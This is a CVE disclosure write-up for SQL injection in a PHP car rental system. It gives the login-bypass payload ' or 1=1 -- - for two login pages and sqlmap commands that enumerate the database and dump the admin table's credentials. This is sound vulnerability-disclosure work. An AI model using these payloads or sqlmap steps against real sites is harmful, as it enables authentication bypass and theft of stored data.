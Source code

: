 ```yaml
---
title: "CVE-2020-11545"
date: "2020-04-05"
author: frosty
categories: "cve"
tags: "cve"
---
```


[Project Worlds Official Car Rental System 1](https://github.com/projectworldsofficial/Car-Rental-Syatem-PHP-MYSQL) is vulnerable to multiple SQL injection issues, as demonstrated by below.

| Parameter | Filename |
| --- | --- |
| \- `email`
\- `pass` | account.php |
| \- `uname`
\- `pass` | login.php |
| \- `id` | book\_car.php |

Vulnerable parameters for the files.

**Impact**: These vulnerabilities allows an attacker to dump the MySQL database and to bypass the login authentication prompt.

* * *

## Discovering the Vulnerabilities

I installed the Project on my Ubuntu VM using Apache2 and MySQL. There are two different login pages depending on the type of user - customer or administrator. Customers are supposed to login with `account.php`, administrators are supposed to login with `login.php`. After static code analysis, I saw that the user inputs are not sanitized. Rather, user input is used directly in the query to the SQL database.

I further analyzed the web application, and saw a potential vulnerable URL on `book_car.php`. I intercepted the GET request and saved it to a file which I could then import to sqlmap for further testing.

## Verifying the Vulnerabilities

#### account.php

![Image](assets/img/cve/2020-11545/image-40.png)

Payload: `' or 1=1 -- -`

![Image](assets/img/cve/2020-11545/image-29.png)

![Image](assets/img/cve/2020-11545/image-31.png)

![Image](assets/img/cve/2020-11545/image-32.png)

* * *

##### login.php

![Image](assets/img/cve/2020-11545/image-39.png)

Payload: `' or 1=1 -- -`

![Image](assets/img/cve/2020-11545/image-33.png)

![Image](assets/img/cve/2020-11545/image-34.png)

![Image](assets/img/cve/2020-11545/image-36.png)

##### book\_car.php

![Image](assets/img/cve/2020-11545/image-41.png)

I intercepted the GET request to list the details of the car, and saved it to a file. Following this, I used the sqlmap tool to test for vulnerabilities.

```
# URL: /book_car.php?id=1
$ sqlmap -r <book_car_request> -o
```

![Image](assets/img/cve/2020-11545/image-37.png)

We are able to use SQLmap to further enumerate the database:

```
$ sqlmap -r <book_car_request> --current-db
[...]
[11:58:47] [INFO] fetching current database
current database: 'cars'
```

```
$ sqlmap -r <book_car_request> -D cars --tables
[...]
Database: cars
[5 tables]
+---------+
| admin   |
| cars    |
| client  |
| hire    |
| message |
+---------+
```

```
$ sqlmap -r <book_car_request> -D cars -T admin --dump
[...]
Database: cars
Table: admin
[1 entry]
+----------+-------+-------+
| admin_id | pass  | uname |
+----------+-------+-------+
| 1        | admin | admin |
+----------+-------+-------+
```
